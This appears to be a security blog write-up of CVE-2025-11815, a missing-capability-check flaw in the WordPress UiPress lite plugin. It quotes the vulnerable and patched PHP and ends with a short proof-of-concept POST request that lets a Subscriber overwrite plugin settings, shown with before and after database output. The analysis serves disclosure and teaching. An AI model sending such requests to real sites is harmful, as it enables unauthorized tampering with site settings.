


<!--more-->

## CVE & Basic Info

**UiPress lite** | the **plugin** that creates **custom dashboards**, **admin themes**, and **pages** for **WordPress** is easily **exploitable**, leading to **unauthorized data modification** due to the lack of **capability checks** in the **uip_save_site_option()** function in all versions up to and including **3.5.08**. This allows an **authenticated attacker** with **Subscriber-level** privileges or higher to arbitrarily modify **plugin settings**. Other **AJAX actions** are also affected.

* **CVE ID**: [CVE-2025-11815](https://www.cve.org/CVERecord?id=CVE-2025-11815)
* **Vulnerability Type**: Broken Access Control
* **Affected Versions**: <= 3.5.08
* **Patched Versions**: 3.5.09
* **CVSS severity**: Low (5.4)
* **Required Privilege**: Subscriber
* **Product**: [WordPress UiPress lite Plugin](https://wordpress.org/plugins/uipress-lite/)

## Requirements

* **Local WordPress & Debugging**

  * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
  * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **UiPress lite**:

  * `3.5.08` – **vulnerable**
  * `3.5.09` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any other diff tool.

## Analysis

The plugin registers a long list of AJAX actions:

```php {title="ajax-functions.php" hl_lines=[25] data-open=true}
public function load_ajax()
{
    $function_names = [
      "uip_get_users_and_roles",
      "uip_get_post_types",
      "uip_get_recent_posts",
      "uip_get_posts_for_table",
      "uip_get_post_table_columns",
      "uip_delete_post",
      "uip_save_user_preference",
      "uip_get_user_preference",
      "uip_search_content",
      "uip_process_form_input",
      "uip_send_form_email",
      "uip_save_form_as_option",
      "uip_save_form_as_user_option",
      "uip_pre_populate_form_data",
      "uip_create_frame_switch",
      "uip_get_sync_options",
      "uip_refresh_sync_key",
      "uip_save_sync_options",
      "uip_start_site_sync",
      "uip_check_for_template_updates",
      "uip_process_block_query",
      "uip_save_site_option",
      "uip_send_message_to_gpt",
      "uip_global_export",
      "uip_global_import",
      "uip_push_new_custom_menu_items",
      "uip_remove_custom_menu_items",
    ];

    foreach ($function_names as $name) {
      add_action("wp_ajax_{$name}", [$this, $name]);
    }
}
```

The `wp_ajax_` prefix indicates that these AJAX actions only run for logged-in users.

In the vulnerable **v3.5.08**, none of the callbacks perform capability checks. For example:

```php {title="ajax-functions.php v3.5.08" hl_lines=[3] data-open=true}
public function uip_save_site_option()
{
    Ajax::check_referer();

    $option = json_decode(stripslashes($_POST["option"]));
    $option = Sanitize::clean_input_with_code($option);
    $optionName = sanitize_text_field($_POST["optionName"]);

    if (!$optionName) {
      Ajax::error(__("No option name specified", "uipress-lite"));
    }

    UipOptions::update($optionName, $option);

    $returndata["success"] = true;
    $returndata["message"] = __("Option saved", "uipress-lite");
    wp_send_json($returndata);
}
```

This function updates the `uip-global-settings` option in the database using `option` and `optionName` taken directly from the POST request.

```php {title="UipOptions.php v3.5.08" hl_lines=[12] data-open=true}
public static function update($key = null, $newValue = false)
{
    $options = get_option("uip-global-settings");
    $options = $options ? $options : [];

    if (isset($key)) {
        $options[$key] = $newValue;
    } else {
        $options = $newValue;
    }

    update_option("uip-global-settings", $options);
}
```

This option is stored in the `wp_options` table with `option_name = 'uip-global-settings'`:

```sh {data-open=true}
mysql> select * from wp_options where option_name='uip-global-settings';
+-----------+---------------------+------------------------------------------------------------------------------+----------+
| option_id | option_name         | option_value                                                                 | autoload |
+-----------+---------------------+------------------------------------------------------------------------------+----------+
|       363 | uip-global-settings | a:1:{s:11:"remote-sync";a:1:{s:3:"key";s:27:"uip-692c7c8dd99844.95568294";}} | auto     |
+-----------+---------------------+------------------------------------------------------------------------------+----------+
1 row in set (0.00 sec)
```

Although `Ajax::check_referer()` enforces CSRF protection using a `security` nonce:

```php {title="Ajax.php v3.5.08" hl_lines=[25] data-open=true}
public static function check_referer()
{
    $doingAjax = defined("DOING_AJAX") && DOING_AJAX;
    $referer = check_ajax_referer("uip-security-nonce", "security") > 0;
    $result = $doingAjax && $referer;

    if (!$result) {
        self::error(__("Unable to perform action", "uipress-lite"));
    }
}
```

This nonce appears in the Dashboard of every logged-in user, including Subscribers. However, the AJAX actions themselves are intended only for admin users.



In the patch **v3.5.09**, the developer added capability checks:

```php {data-open=true title="v3.5.09"}
public static function check_referer()
{
    Ajax::check_referer();

    if (!current_user_can("manage_options")) {
      Ajax::error(__("You do not have permission to perform this action", "uipress-lite"));
    }
    ...
}
```

`manage_options` is an administrator-level capability, so only admins can execute these AJAX actions.

All AJAX callbacks registered above are now protected by the same mechanism in the patched version.

## Flow


graph TD

A["Authenticated user (Subscriber or higher)"]
--> B["Dashboard renders → 'uip-security-nonce' is available to all logged-in users"]
--> C["Attacker sends AJAX request: action=uip_save_site_option"]
--> D["Hook triggered: wp_ajax_uip_save_site_option"]
--> E["Ajax::check_referer() validates nonce — passes"]
--> F["No capability check is performed"]
--> G["uip_save_site_option() executes"]
--> H["Reads POST parameters: optionName + option"]
--> I["Calls UipOptions::update()"]
--> J["update_option('uip-global-settings', attacker-controlled data)"]
--> K["Plugin settings overwritten by a low-privileged user"]



## Proof of Concept (PoC)

1. Log in using a Subscriber account
2. Extract the nonce from the admin Dashboard
3. Send the request:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Cookie: subcriber+_cookie

action=uip_save_site_option&security=e032057458&option={payload}&optionName=remote-sync
```

```sh {data-open=true}
--- Before
mysql> select * from wp_options where option_name='uip-global-settings';
+-----------+---------------------+------------------------------------------------------------------------------+----------+
| option_id | option_name         | option_value                                                                 | autoload |
+-----------+---------------------+------------------------------------------------------------------------------+----------+
|       363 | uip-global-settings | a:1:{s:11:"remote-sync";a:1:{s:3:"key";s:27:"uip-692c7c8dd99844.95568294";}} | auto     |
+-----------+---------------------+------------------------------------------------------------------------------+----------+
1 row in set (0.00 sec)

-- After 
mysql> select * from wp_options where option_name='uip-global-settings';
+-----------+---------------------+----------------------------------------------+----------+
| option_id | option_name         | option_value                                 | autoload |
+-----------+---------------------+----------------------------------------------+----------+
|       363 | uip-global-settings | a:1:{s:11:"remote-sync";O:8:"stdClass":0:{}} | auto     |
+-----------+---------------------+----------------------------------------------+----------+
1 row in set (0.00 sec)
```

**Error Occurred**:



## Conclusion

The vulnerability in UiPress lite <= 3.5.08 originates from missing capability checks in AJAX callbacks for authenticated users, particularly the `uip_save_site_option()` function. Although the plugin uses a nonce for CSRF protection, this nonce is provided to all users, including Subscribers. This enables any low-privileged account to directly invoke privileged AJAX actions and overwrite important plugin settings stored in `uip-global-settings`. This is a Broken Access Control flaw allowing low-privilege users to modify admin-only data. The 3.5.09 patch fixes the issue by adding a `current_user_can('manage_options')` capability check.

## Key Takeaways

* **A CSRF nonce alone is not secure** without a capability check on the action performed.
* **All privileged AJAX actions must validate capability** before processing data.
* **Nonces visible to all users** can lead to abuse when combined with missing capability checks.
* **Low-privileged accounts must never be allowed to modify admin settings**, whether via AJAX or any other mechanisms.
* **Nonce + capability check must always be paired** to prevent CSRF and privilege escalation issues.

## References

[Broken Access Control](https://patchstack.com/academy/wordpress/vulnerabilities/broken-access-control/)

[WordPress UiPress lite Plugin <= 3.5.08 is vulnerable to Broken Access Control](https://patchstack.com/database/wordpress/plugin/uipress-lite/vulnerability/wordpress-uipress-lite-plugin-3-5-08-missing-authorization-to-authenticated-subscriber-plugin-settings-update-vulnerability)
